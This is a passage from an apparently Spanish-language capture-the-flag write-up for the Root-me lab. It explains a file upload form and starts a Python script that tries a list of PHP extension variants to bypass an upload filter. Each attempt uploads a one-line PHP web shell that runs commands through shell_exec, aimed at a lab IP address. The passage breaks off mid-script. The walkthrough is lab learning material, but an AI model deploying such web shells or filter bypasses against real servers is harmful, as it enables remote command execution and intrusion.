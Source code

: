 ![](/imagenes/Root_me/rootme11.png)

Vemos que hay 2 parámetros, el primero que contiene el payload y otro tiene la data **Upload**, si vemos a la derecha:


![](/imagenes/Root_me/rootme12.png)

Esto nos hace pensar que necesitamos tanto el file que se está subiendo, como una data llamada **submit**, que vale **Upload**, para ello vamos a construir el siguiente script en python, que utilizando la libraría request subirá los archivos a la web:

```py
import requests

url = "http://10.10.22.79/panel/" # Change victim IP
extensions= [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]
s = requests.Session()

def File_Upload():

    for ext in extensions:

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        data = {
            'submit' : "Upload"
        }
        
        files  = {'fileUpload':(f'shell{ext}',payload),
                 
            }
```